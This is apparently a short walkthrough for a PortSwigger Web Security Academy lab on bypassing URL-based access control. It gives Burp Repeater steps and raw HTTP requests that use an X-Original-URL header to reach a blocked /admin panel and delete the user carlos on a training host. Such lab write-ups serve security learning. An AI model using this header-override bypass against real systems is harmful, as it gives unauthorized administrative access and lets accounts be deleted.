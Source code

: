2![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513202826.png)

### URL-based access control can be circumvented
```bash

# This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

# To solve the lab, access the admin panel and delete the user carlos. 

Go to:

https://ac791f081eb8a033c0a92e6d00c8000f.web-security-academy.net/admin

"Access denied"

Go to: HTTP history
Find:

GET /admin HTTP/1.1

Send to repeater

Change 

GET /admin HTTP/1.1

To

GET / HTTP/1.1

Insert (make sure it is above 'Connection: close' ): 

X-Original-URL: /admin

Note the response:

HTTP/1.1 200 OK

Delete the username "carlos"

Upon failure
Go to: HTTP history
Find:

GET /admin/delete?username=carlos HTTP/1.1

Send to repeater

Change:

GET /admin/delete?username=carlos HTTP/1.1

To

GET /?username=carlos HTTP/1.1

Insert (make sure it is above 'Connection: close' ):

X-Original-URL: /admin/delete

After sending this request the username "carlos" should be deleted
```